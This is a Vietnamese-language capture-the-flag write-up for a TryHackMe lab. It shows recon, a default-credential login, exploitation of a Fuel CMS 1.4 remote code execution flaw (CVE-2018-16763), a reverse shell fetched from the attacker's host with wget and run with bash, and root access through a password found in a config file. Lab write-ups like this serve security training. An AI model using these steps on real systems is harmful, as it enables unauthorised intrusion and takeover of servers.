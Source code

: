 # [THM] Anonforce write-up

- IP: 10.10.84.37

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.84.37

![Nmap scan](./img/nmap-scan.png)

Có 1 port dịch vụ đang mở 
- Port 80 chạy dịch vụ 

Giao diện trang web

![Web interface](./img/web-interface.png)

Thông qua giao diện web trên ta xác định được trang web dùng Fuel CMS version 1.4. Tiếp tục scan thư mục ẩn với công cụ ffuf
> ffuf -u "http://10.10.84.37/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt

![Ffuf scan](./img/ffuf-scan.png)

Sau khi khám phá các thư mục ẩn trên hầu hết không có gì đặc biệt ngoại trừ tệp `robots.txt`. Dựa vào nội dung tệp đó ta thử truy cập `/fuel` thì ra trang login

![Login interface](./img/login-interface.png)

## Exploit

Và thử đăng nhập với tài khoản defaul có `username:admin` và `password:admin` ta đã truy cập được vào dashboard. Khám phá và nhận ra có thể upload nhưng khi thử upload reverse shell đã bị từ chối chắc có lẽ nó đã được filter định dạng file

![Upload test](./img/upload-test.png)

Đã thử và nhận ra không thể tấn công bằng cách này. Vậy còn thông tin về CMS mà page đang sử dụng liệu nó có lỗ hổng nào đã được tìm thấy trước đây không? 
Sau khi tìm kiếm thông tin thì có thể thấy ở version CMS này có thể tấn công thông qua **CVE-2018-16763**

Tìm kiếm PoC và thực hiện tấn công. File exploit đã được chỉnh sửa ở bên dưới. Bởi vì sẽ không sử dụng proxy (burp hoặc bất kỳ phần mềm proxy nào khác) nên hãy chú thích mã proxy trong phần khai thác.

Thực thi mã và đã nhận được shell 

![Shell](./img/shell.png)

Tận dụng việc này ta sẽ chèn revese shell. Ta có thể truy cập [revshell](.https://www.revshells.com/) để tạo bash reverse shell

![Reverse shell](./img/revese-shell.png)

Tạo tệp `revshell.sh` trên máy attacker chứa revere shell sau đó chạy lệnh `python3 -m http.server 80` và tiếp theo trên shell mục tiêu ta sẽ download file shell về với câu lệnh `wget http://10.21.113.26/revshell.sh` và cấp quyền với câu lệnh `chmod +x revshell.sh`. Cuối cùng sẽ tạo **netcat listener** trên máy attacker và trên shell chạy lệnh `bash revshell.sh`

## user.txt
Sau khi truy cập được shell ta thực hiện tìm kiếm user flag

![User flag](./img/user-flag.png)

## Privilege escalation
Kiểm tra user này có thể thực hiện câu lệnh nào với quyền root mà không cần mật khẩu hay không. Nhưng rất tiếc là không có

![Sudo -l](./img/sudo-l.png)

Chợt nhớ ra khi truy cập trang web nhận thấy một số hướng dẫn liên quan tới cấu hình cơ sở dữ liệu trên trang web.

![Database](./img/database.png)

Sau khi kiểm tra file config ta đã có mật khẩu của root

![Root pass](./img/root-pass.png)

Cần chạy thêm câu lệnh `python3 -c "import pty;pty.spawn('/bin/bash')"` bởi vì **su: must be run from a terminal**

## root.txt
![Root flag](./img/root-flag.png)